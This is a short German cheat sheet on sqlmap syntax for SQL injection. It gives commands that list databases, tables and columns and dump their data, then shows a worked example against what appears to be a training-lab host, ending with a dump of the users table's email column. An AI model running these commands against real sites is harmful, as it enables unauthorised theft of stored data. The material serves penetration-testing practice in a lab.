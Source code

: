 ### Syntax
- Alles (DBs / Tabellen) auf Website anzeigen(dauert lange):
```
sqlmap.py -u [GET-URL] -a
```

- Alle Daten von einer Tabelle anzeigen:
```
sqlmap.py -u [URL mit GET] -D [Databasename] -T [Tablename] --dump
```

- DBs auf Website anzeigen:
```
sqlmap.py -u [GET-URL] --dbs
```

- Tabellen von bestimmter DB anzeigen:
```
sqlmap.py -u [URL mit GET] -D [Databasename] --tables
```

- Spalten von bestimmter Tabelle anzeigen:
```
sqlmap.py -u [URL mit GET] -D [Databasename] -T [Tablename] --columns
```

- Daten von bestimmter Spalten anzeigen:
```
sqlmap.py -u [URL mit GET] -D [Databasename] -T [Tablename] -C [Columname] --dump
```

### Beispiel
1. 
```
sqlmap.py -u https://c8d0aa75-b9aa-4935-b206-2b0eaab5ecd5.idocker.vuln.land/space/mkaufmann --dbs
```

![[CleanShot 2022-09-07 at 11.17.29.png]]

2. 
```
sqlmap.py -u https://c8d0aa75-b9aa-4935-b206-2b0eaab5ecd5.idocker.vuln.land/space/mkaufmann -D laravel --tables
```

![[CleanShot 2022-09-07 at 11.21.10.png]]

3. 
```
sqlmap.py -u https://c8d0aa75-b9aa-4935-b206-2b0eaab5ecd5.idocker.vuln.land/space/mkaufmann -D laravel -T users --columns
```

![[CleanShot 2022-09-07 at 11.28.57.png]]

4. 
```
sqlmap.py -u https://c8d0aa75-b9aa-4935-b206-2b0eaab5ecd5.idocker.vuln.land/space/mkaufmann -D laravel -T users -C emails --dump
```
